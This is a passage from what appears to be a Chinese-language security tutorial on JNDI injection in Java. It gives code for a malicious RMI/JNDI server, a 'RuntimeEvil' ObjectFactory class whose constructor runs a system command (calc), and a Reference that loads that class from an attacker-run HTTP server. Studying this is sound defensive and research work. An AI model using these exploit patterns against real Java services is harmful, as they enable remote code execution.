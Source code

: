 ```java
public class EvilJNDIServer {
    public static void main(String[] args) throws Exception {
        InitialContext context = new InitialContext();
        context.rebind("rmi://vpsip:port/remoteImpl", new RuntimeEvil());
    }
}
```

服务器：

控制lookup参数为`rmi://vpsip:port/remoteImpl`，必须要调用sayHello才能命令执行

而RMI就不能这么打，因为RMI中我们不能控制URL，需要多一个获取注册中心的部分，但是当然可以JRMP打



## JNDI绑定Reference

服务端同样需要RemoteInterface、RemoteImpl、RMIServer

JNDIServer换个方式绑定罢了，看到上面加载RuntimeEvil的例子了吗，需要知道服务器RemoteInterface的代码，并继承UnicastRemoteObject。而经过Reference封装就不用

### 恶意 Reference Server

RuntimeEvil.class

我们的类在实例化后不能转化为ObjectFactory`(ObjectFactory) clas.newInstance()`。让我们的类继承ObjectFactory即可。

```java
public class RuntimeEvil implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        return null;
    }

    public RuntimeEvil() throws RemoteException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

需要在RuntimeEvil.class所在路径开一个http服务 

`python -m http.server 8888`

```java
public class JNDIReferenceServer {
    public static void main(String[] args) throws Exception {
        InitialContext context = new InitialContext();
        Reference reference = new Reference("RuntimeEvil", "RuntimeEvil", "http://localhost:8888/");
        context.rebind("rmi://localhost:1099/remoteImpl", reference);
    }
}
```
